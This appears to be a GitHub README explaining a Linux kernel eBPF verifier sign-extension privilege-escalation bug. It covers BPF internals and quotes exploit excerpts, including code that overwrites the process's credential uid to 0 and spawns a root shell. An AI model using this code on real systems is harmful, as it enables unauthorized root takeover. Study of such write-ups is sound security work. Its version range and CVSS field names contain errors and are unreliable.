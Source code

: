 # Linux Kernel - BPF Sign Extension Local Privilege Escalation

![alt text](https://github.com/samaleyadeh/images/blob/master/DY42GCGV4AA1_8F.jpg) 

This vulnerability was caused by a bug in the linux kernel that allowed sign extension from a signed 32-bit integer to an unsigned 64-bit integer, bypassing eBPF verifier and leading to local privilege escalation. The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extensions.

This could occur due to the fact taht before each of the BPF program runs, two passes of verifications are conducted to ensure its correctness. The first pass check_cfg() ensures the code is loop-free using depth-first search. The second pass do_check() runs a static analysis to emulate the execution of all possible paths derived from the first instruction. The program will be terminated if any invalid instruction or memory violation is found.

In the exploit, a set of BPF instructions are carefully crafted to bypass this filtering process through an unintentional sign extension from 32 bits to 64 bits. As a result, a few lines of malicious code could be attached and get executed in the kernel space, resulting in a hack refered to as privilege escalation explained below. 

This vulnerability allowed attacker to have full control of the system with root access. The low complexity of the attack and low privileges required to perform this exploit made it high priority. 

It affected specific versions of linux based system, but given that Ubuntu has a large number of users around the world, especially public cloud users, the vulnerability had the potetional to cause diruptions at a significant scale for both corporate and individual users.

### Vulnerability Overview and Impact
Linux Kernel Version: 4.14 - 4.4 (mainly Ubuntu and Debian)
CVSS v3 Score: 7.8 (Severity: high)
Confidentiality: High
Integrity: High
Authority: High


## [What is Sign Extension?](https://en.wikipedia.org/wiki/Sign_extension)

Is a simple process by wich the represetnation of a value in memory is changed from a lower number of bits to a higher number of bits while preserving its content and sign in the process as illistrated in the figure above

![alt text](https://github.com/samaleyadeh/images/blob/master/sign-extension.jpg) 


## [What is Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation)
![alt text](https://github.com/samaleyadeh/images/blob/master/300px-Priv_rings.svg.png?raw=true) 


## What is [BPF](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter)?

As you may know, the user layer and kernel layer of Linux are isolated. If you want the kernel to execute the user's code, you need to write the kernel module which can only be loaded by the root user. The BPF (Berkeley Packet Filter) provides a bridge between code and data transfer between the user and the kernel. The user can use the eBPF instruction bytecode to deliver code to the kernel, and trigger the kernel to execute the user-provided code through events (such as writing data to the socket), and share the data with the kernel in the form of map (key - value). The user layer writes data to the map, and the kernel layer fetches data from the map, and vice versa. 
The original intention of BPF is to filter the network at the bottom, and later it can easily inject code into the kernel. It is widely used for packet capture, kernel probe, Performance monitoring and other fields. 
eBPF virtual instruction system
The eBPF virtual instruction system belongs to Reduced Instruction Set Computer (RISC) and has 10 64-bit virtual registers, r0-r10. r0 stores the return value, r1 to r5 is reserved for arguments, r6 to r9 is reserved for storing callee saved registers and r10 stores read-only frame pointer. In actual operation, the virtual machine corresponds these 10 registers to the 10 physical registers of the hardware CPU: R0 - rax, R1 - rdi , R2 - rsi , R3 - rdx , R4 - rcx , R5 - r8 , R6 - rbx , R7 - r13 , R8 - r14 , R9 - r15 , R10 – rbp(frame pointer).
Each BPF instruction on x64 platform is of 64-bit long. The format of each instruction is as follows:

![alt text](https://github.com/samaleyadeh/images/blob/master/zero-day-attack-1024x413.jpg) 

```C
Struct bpf_insn { 
    __u8 code;         /* opcode */ 
    __u8 dst_reg: 4 ;     /* dest register */ 
    __u8 src_reg: 4 ;     /* source register */ 
    __s16 off;         /* signed offset */ 
    __s32 imm;         /* signed immediate constant */ 
};
```



```C

#define BPF_MOV32_IMM(DST, IMM) \ 
    (( struct bpf_insn) { \ 
        .code   = BPF_ALU | BPF_MOV | BPF_K, \ 
        .dst_reg = DST, \ 
        .src_reg = 0 , \ 
        .off    = 0 , \ 
        .imm    = IMM })

```


```C
uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp();
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp);
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);
```


```C
	credptr = __read(task_struct + CRED_OFFSET); // cred

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}
```


